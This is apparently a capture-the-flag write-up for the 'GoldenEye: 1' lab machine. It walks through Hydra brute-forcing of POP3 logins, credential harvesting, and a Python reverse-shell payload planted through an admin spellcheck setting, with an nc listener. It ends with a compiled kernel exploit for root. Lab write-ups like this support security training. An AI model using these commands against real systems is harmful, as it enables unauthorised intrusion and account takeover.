

# GoldenEye: 1

### Nmap Scan

```bash
PORT      STATE SERVICE     REASON         VERSION
25/tcp    open  smtp        syn-ack ttl 64 Postfix smtpd
|_smtp-commands: ubuntu, PIPELINING, SIZE 10240000, VRFY, ETRN, STARTTLS, ENHANCEDSTATUSCODES, 8BITMIME, DSN
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=ubuntu
| Issuer: commonName=ubuntu
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2018-04-24T03:22:34
| Not valid after:  2028-04-21T03:22:34
| MD5:   cd4a:d178:f216:17fb:21a6:0a16:8f46:c8c6
| SHA-1: fda3:fc7b:6601:4746:96aa:0f56:b126:1c29:36e8:442c
| -----BEGIN CERTIFICATE-----
| MIICsjCCAZqgAwIBAgIJAPokpqPNVgk6MA0GCSqGSIb3DQEBCwUAMBExDzANBgNV
| BAMTBnVidW50dTAeFw0xODA0MjQwMzIyMzRaFw0yODA0MjEwMzIyMzRaMBExDzAN
| BgNVBAMTBnVidW50dTCCASIwDQYJKoZIhvcNAQEBBQADggEPADCCAQoCggEBAMM6
| ryxPHxf2wYf7DNTXnW6Hc6wK+O6/3JVeWME041jJdsY2UpxRB6cTmBIv7dAOHZzL
| eSVCfH1P3IS0dvSrqkA+zpPRK3to3SuirknpbPdmsNqMG1SiKLDl01o5LBDgIpcY
| V9JNNjGaxYBlyMjvPDDvgihmJwpb81lArUqDrGJIsIH8J6tqOdLt4DGBXU62sj//
| +IUE4w6c67uMAYQD26ZZH9Op+qJ3OznCTXwmJslIHQLJx+fXG53+BLiV06EGrsOk
| ovnPmixShoaySAsoGm56IIHQUWrCQ03VYHfhCoUviEw02q8oP49PHR1twt+mdj6x
| qZOBlgwHMcWgb1Em40UCAwEAAaMNMAswCQYDVR0TBAIwADANBgkqhkiG9w0BAQsF
| AAOCAQEAfigEwPIFEL21yc3LIzPvHUIvBM5/fWEEv0t+8t5ATPfI6c2Be6xePPm6
| W3bDLDQ30UDFmZpTLgLkfAQRlu4N40rLutTHiAN6RFSdAA8FEj72cwcX99S0kGQJ
| vFCSipVd0fv0wyKLVwbXqb1+JfmepeZVxWFWjiDg+JIBT3VmozKQtrLLL/IrWxGd
| PI2swX8KxikRYskNWW1isMo2ZXXJpdQJKfikSX334D9oUnSiHcLryapCJFfQa81+
| T8rlFo0zan33r9BmA5uOUZ7VlYF4Kn5/soSE9l+JbDrDFOIOOLLILoQUVZcO6rul
| mJjFdmZE4k3QPKz1ksaCAQkQbf3OZw==
|_-----END CERTIFICATE-----

80/tcp    open  http        syn-ack ttl 64 Apache httpd 2.4.7 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: GoldenEye Primary Admin Server
|_http-server-header: Apache/2.4.7 (Ubuntu)

55006/tcp open  ssl/unknown syn-ack ttl 64
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=localhost/organizationName=Dovecot mail server/organizationalUnitName=localhost/emailAddress=root@localhost
| Issuer: commonName=localhost/organizationName=Dovecot mail server/organizationalUnitName=localhost/emailAddress=root@localhost
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2018-04-24T03:23:52
| Not valid after:  2028-04-23T03:23:52
| MD5:   d039:2e71:c76a:2cb3:e694:ec40:7228:ec63
| SHA-1: 9d6a:92eb:5f9f:e9ba:6cbd:dc93:55fa:5754:219b:0b77
| -----BEGIN CERTIFICATE-----
| MIIDnTCCAoWgAwIBAgIJAOZHv9ZnCiJ+MA0GCSqGSIb3DQEBCwUAMGUxHDAaBgNV
| BAoME0RvdmVjb3QgbWFpbCBzZXJ2ZXIxEjAQBgNVBAsMCWxvY2FsaG9zdDESMBAG
| A1UEAwwJbG9jYWxob3N0MR0wGwYJKoZIhvcNAQkBFg5yb290QGxvY2FsaG9zdDAe
| Fw0xODA0MjQwMzIzNTJaFw0yODA0MjMwMzIzNTJaMGUxHDAaBgNVBAoME0RvdmVj
| b3QgbWFpbCBzZXJ2ZXIxEjAQBgNVBAsMCWxvY2FsaG9zdDESMBAGA1UEAwwJbG9j
| YWxob3N0MR0wGwYJKoZIhvcNAQkBFg5yb290QGxvY2FsaG9zdDCCASIwDQYJKoZI
| hvcNAQEBBQADggEPADCCAQoCggEBAMo64gzxBeOvt+rgUQncWU2OJESGR5YJ9Mcd
| h0nF6m0o+zXwvkSx+SW5I3I/mpJugQfsc2lW4txo3xoAbvVgc2kpkkna8ojodTS3
| iUyKXwN3y2KG/jyBcrH+rZcs5FIpt5tDB/F1Uj0cdAUZ+J/v2NEw1w+KjlX2D0Zr
| xpgnJszmEMJ3DxNBc8+JiROMT7V8iYu9/Cd8ulAdS8lSPFE+M9/gZBsRbzRWD3D/
| OtDaPzBTlb6es4NfrfPBanD7zc8hwNL5AypUG/dUhn3k3rjUNplIlVD1lSesI+wM
| 9bIIVo3IFQEqiNnTdFVz4+EOr8hI7SBzsXTOrxtH23NQ6MrGbLUCAwEAAaNQME4w
| HQYDVR0OBBYEFFGO3VTitI69jNHsQzOz/7wwmdfaMB8GA1UdIwQYMBaAFFGO3VTi
| tI69jNHsQzOz/7wwmdfaMAwGA1UdEwQFMAMBAf8wDQYJKoZIhvcNAQELBQADggEB
| AMm4cTA4oSLGXG+wwiJWD/2UjXta7XAAzXofrDfkRmjyPhMTsuwzfUbU+hHsVjCi
| CsjV6LkVxedX4+EQZ+wSa6lXdn/0xlNOk5VpMjYkvff0ODTGTmRrKgZV3L7K/p45
| FI1/vD6ziNUlaTzKFPkmW59oGkdXfdJ06Y7uo7WQALn2FI2ZKecDSK0LonWnA61a
| +gXFctOYRnyMtwiaU2+U49O8/vSDzcyF0wD5ltydCAqCdMTeeo+9DNa2u2IOZ4so
| yPyR+bfnTC45hue/yiyOfzDkBeCGBqXFYcox+EUm0CPESYYNk1siFjjDVUNjPGmm
| e1/vPH7tRtldZFSfflyHUsA=
|_-----END CERTIFICATE-----

55007/tcp open  pop3    syn-ack ttl 64 Dovecot pop3d
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=localhost/organizationName=Dovecot mail server/emailAddress=root@localhost/organizationalUnitName=localhost
| Issuer: commonName=localhost/organizationName=Dovecot mail server/emailAddress=root@localhost/organizationalUnitName=localhost
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2018-04-24T03:23:52
| Not valid after:  2028-04-23T03:23:52
| MD5:   d039:2e71:c76a:2cb3:e694:ec40:7228:ec63
| SHA-1: 9d6a:92eb:5f9f:e9ba:6cbd:dc93:55fa:5754:219b:0b77
| -----BEGIN CERTIFICATE-----
| MIIDnTCCAoWgAwIBAgIJAOZHv9ZnCiJ+MA0GCSqGSIb3DQEBCwUAMGUxHDAaBgNV
| BAoME0RvdmVjb3QgbWFpbCBzZXJ2ZXIxEjAQBgNVBAsMCWxvY2FsaG9zdDESMBAG
| A1UEAwwJbG9jYWxob3N0MR0wGwYJKoZIhvcNAQkBFg5yb290QGxvY2FsaG9zdDAe
| Fw0xODA0MjQwMzIzNTJaFw0yODA0MjMwMzIzNTJaMGUxHDAaBgNVBAoME0RvdmVj
| b3QgbWFpbCBzZXJ2ZXIxEjAQBgNVBAsMCWxvY2FsaG9zdDESMBAGA1UEAwwJbG9j
| YWxob3N0MR0wGwYJKoZIhvcNAQkBFg5yb290QGxvY2FsaG9zdDCCASIwDQYJKoZI
| hvcNAQEBBQADggEPADCCAQoCggEBAMo64gzxBeOvt+rgUQncWU2OJESGR5YJ9Mcd
| h0nF6m0o+zXwvkSx+SW5I3I/mpJugQfsc2lW4txo3xoAbvVgc2kpkkna8ojodTS3
| iUyKXwN3y2KG/jyBcrH+rZcs5FIpt5tDB/F1Uj0cdAUZ+J/v2NEw1w+KjlX2D0Zr
| xpgnJszmEMJ3DxNBc8+JiROMT7V8iYu9/Cd8ulAdS8lSPFE+M9/gZBsRbzRWD3D/
| OtDaPzBTlb6es4NfrfPBanD7zc8hwNL5AypUG/dUhn3k3rjUNplIlVD1lSesI+wM
| 9bIIVo3IFQEqiNnTdFVz4+EOr8hI7SBzsXTOrxtH23NQ6MrGbLUCAwEAAaNQME4w
| HQYDVR0OBBYEFFGO3VTitI69jNHsQzOz/7wwmdfaMB8GA1UdIwQYMBaAFFGO3VTi
| tI69jNHsQzOz/7wwmdfaMAwGA1UdEwQFMAMBAf8wDQYJKoZIhvcNAQELBQADggEB
| AMm4cTA4oSLGXG+wwiJWD/2UjXta7XAAzXofrDfkRmjyPhMTsuwzfUbU+hHsVjCi
| CsjV6LkVxedX4+EQZ+wSa6lXdn/0xlNOk5VpMjYkvff0ODTGTmRrKgZV3L7K/p45
| FI1/vD6ziNUlaTzKFPkmW59oGkdXfdJ06Y7uo7WQALn2FI2ZKecDSK0LonWnA61a
| +gXFctOYRnyMtwiaU2+U49O8/vSDzcyF0wD5ltydCAqCdMTeeo+9DNa2u2IOZ4so
| yPyR+bfnTC45hue/yiyOfzDkBeCGBqXFYcox+EUm0CPESYYNk1siFjjDVUNjPGmm
| e1/vPH7tRtldZFSfflyHUsA=
|_-----END CERTIFICATE-----
|_pop3-capabilities: STLS SASL(PLAIN) PIPELINING AUTH-RESP-CODE UIDL TOP CAPA RESP-CODES USER
```

---

### Website


- While searching we find out in source-code we have Boris passwords


- Decode this password
- Cyberchef HTML Entity Encoding password


> **boris:InvincibleHack3r**
> 
- **Hidden Endpoint**

```bash
/sev-home
```

- Login As Boris → `/sev/home`


---

### Nikto Result

```bash
nikto -h http://10.176.154.141/
```


- Another Hidden Endpoint

```bash
/splashAdmin.php
```


- Here are the valid users who may be useful.

```
boris
natalya
xenia 
janus
admin
```

---

### Hydra password cracking → POP3

- Try to access the POP3 service

```bash
hydra -l boris -P /usr/share/wordlists/fasttrack.txt -s 55007 pop3://172.30.170.141 -t10 -I 
```


- Found POP3 credentials

> **boris:secret1!**
**natalya:bird**
> 

---

### POP3 Access

```bash
telnet 172.30.170.141 55007 
```


- List All The Messages & Read

```bash
## List all the messages 
LIST 

## To READ the message
RETR 1
```

- The user → **`Boris`** has nothing useful information.
- We obtained another password for **Natalya** through brute-forcing.
- While reading Natalya's email, we found another username and password.


> **xenia:RCP90rulez!**
> 
- while reading the email found hidden directory and hostname were discovered.

> **save this to /etc/hosts → `severnaya-station.com`**
> 


- Login As → xenia


- While browsing the website, we noticed that other users exist.
- By changing the `userid` in the URL, we can see other usernames.
    - **http://severnaya-station.com/gnocertdir/blog/index.php?userid=5**


- We can try to brute-force the new users password

```bash
hydra -l doak -P /usr/share/wordlists/fasttrack.txt -s 55007 pop3://172.30.170.141 -t10 -I
```


> **doak:goat**
> 
- Back to Mail-Server and try to read his emails

```bash
telnet 172.30.170.141 55007
```


> **dr_doak:4England!**
> 
- Login as doak, and we find doak has a secret file


```
007,

I was able to capture this apps adm1n cr3ds through clear txt. 

Text throughout most web apps within the GoldenEye servers are scanned, so I cannot add the cr3dentials here. 

Something juicy is located here: /dir007key/for-007.jpg

Also as you may know, the RCP-90 is vastly superior to any other weapon and License to Kill is the only way to play.   
```

- Reading the secret file reveals a hidden folder: `/dir007key/for-007.jpg`
- This image contains hidden information.


- There is a password for admin in this image

```bash
strings for-007.jpg 
```


> **admin:xWinter1995x!**
> 



- While checking for vulnerabilities in the version, we found a remote code execution (RCE) issue in the spellcheck path authentication.

---

### Remote Code Execution


```bash
python3 -c 'import os,pty,socket;s=socket.socket();s.connect(("172.30.170.65",1337));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn("bash")'
```

> **STEP: 1**
> 
- Paste this python payload here.
    - `http://severnaya-station.com/gnocertdir/admin/settings.php?section=systempaths`


- Save changes

> **STEP: 2**
> 
- Then Go to editor → `http://severnaya-station.com/gnocertdir/admin/settings.php?section=editorsettingstinymce` → and change the **`Spell engine`**  to  → `PSpellShell`


- Save changes

> **STEP: 3**
> 
- Final step go to → `http://severnaya-station.com/gnocertdir/blog/edit.php?action=add` → Click `Toggle spellchecker`


- Make Sure you start listening netcat  before step 3

```bash
nc -lvnp 1337
```


---

### Privilege Escalation

- LinPEASS Find out the linux version is vulnerable.


- Found the payload to get a root


- Transfer this payload to target machine


- Since GCC isn't installed, we'll use `cc` instead
- Make sure to replace `gcc` with `cc` on line number → 143 before proceeding.


```bash
 cc exploit.c -o ofs
```


```bash
chmod +x ofs
```

> **Root Flag**
> 


---

### conclusion

Overall, this machine was fun and engaging. The POP3 enumeration part felt a bit repetitive and could slow things down, but it helps point you in the right direction. Once you get a shell, the rest of the process becomes much easier and more straightforward. The privilege escalation is well-balanced and adds to the learning without being too difficult. Despite a slow start, the machine has a smooth progression and is definitely worth doing. It’s a solid challenge with a good mix of enumeration, exploitation, and escalation — great for improving your skills.